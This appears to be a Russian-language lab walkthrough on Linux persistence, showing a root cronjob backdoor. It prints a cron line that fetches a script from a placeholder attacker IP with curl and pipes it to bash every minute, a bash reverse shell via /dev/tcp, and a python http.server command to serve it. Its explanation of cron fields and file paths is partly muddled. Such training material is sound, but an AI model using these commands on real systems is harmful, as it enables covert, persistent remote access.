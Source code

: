 ### Ответьте на вопросы ниже
Вы понимаете, что такое PHP Backdoor
```commandline
Ответ не нужен
```

## Задание 4
Давайте теперь перейдем к третьему методу обхода!

Этот бэкдор заключается в создании cronjob!

Если вы посмотрите на свой файл cronjobs, который называется `/etc/cronjob`, вы увидите что-то вроде этого:



Здесь представлены все задачи, которые запланированы к запуску в определенное время на вашем компьютере.

Получив root-доступ на любом хосте, вы можете добавить любую запланированную задачу. Вы даже можете просто настроить 
задачу, где каждую минуту вам будет отправляться обратный шелл. Что мы и собираемся сделать. 

Обратите внимание на две буквы в верхней части заданий: «м и ч».

Это буквы, которые указывают, должна ли задача запускаться каждый час или каждую минуту.

В приведенном выше примере вы можете видеть символ «*» под «h». Это означает, что следующая задача будет запускаться 
каждый час. 

Теперь давайте перейдем к нашему черному ходу!

Добавьте эту строку в наш файл cronjob:

`* * * * * root curl http://<yourip>:8080/shell | bash`

Обратите внимание, что мы добавили ко всему символ звездочки "*". Это означает, что наша задача будет выполняться 
каждую минуту, каждый час, каждый день и т. д. 

Сначала мы используем «curl» для загрузки файла, а затем передаем его в «bash».

Содержимое файла «shell», который мы используем, простое:
```commandline
-------------------------------------------------

#!/bin/bash

bash -i >& /dev/tcp/ip/порт 0>&1

--------------------------------------------------

```

Нам пришлось бы запустить HTTP- сервер, обслуживающий нашу оболочку.

Этого можно добиться, запустив: "python3 -m http.server 8080"
